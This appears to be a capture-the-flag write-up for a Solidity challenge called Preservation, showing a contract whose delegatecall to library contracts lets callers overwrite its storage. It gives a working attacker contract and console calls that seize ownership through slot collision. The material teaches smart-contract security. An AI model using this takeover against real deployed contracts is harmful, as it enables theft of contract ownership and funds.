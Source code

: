 # Challenge 16

<img src="./images/BigLevel16.svg" alt="16" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Challenge
---
> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Solution
---
1. First Look at the contract and we see library and that will delegate by the Preservation contract. Remember Whenever you use `delegatecall` target contract and `delegatecall` contract must have same `storage`. we need to take ownership let's see storage of `Preservation`

```solidity
 address public timeZone1Library; //  slot 0
  address public timeZone2Library; // slot 1
  address public owner;  // slot 2
  uint storedTime; // slot 3
```

owner is at `slot 2`.

Let's Make contract that will same as library contract. Now, remember that when delegateCall() is used, it executes the called function within the context of the calling contract. Our objective is to set owner to our player address, which lives in slot 2 of the Preservation contract.

```solidity
contract PreservationAttack {
    address public timeZone1Library; // slot 0
  address public timeZone2Library; // slot 1
  uint storedTime; // slot 2
    address public owner; // slot 3
  

     function setTime(uint _time) public {
        storedTime = _time;
    }
}
```

First We call 
```js
await contract.setFirstTime(YOUR_ATTACK_ADDRESS);
```

it will store the attack address at slot `0`.

then will make another call but this time with player address (your address).

```js
await contract.setFirstTime(player);
```

it will excute the function and your address will be at slot `2` and check this 

```js
await contract.owner()
```

you will see your address.  now submit the instance your challenge will be cleared.🎉
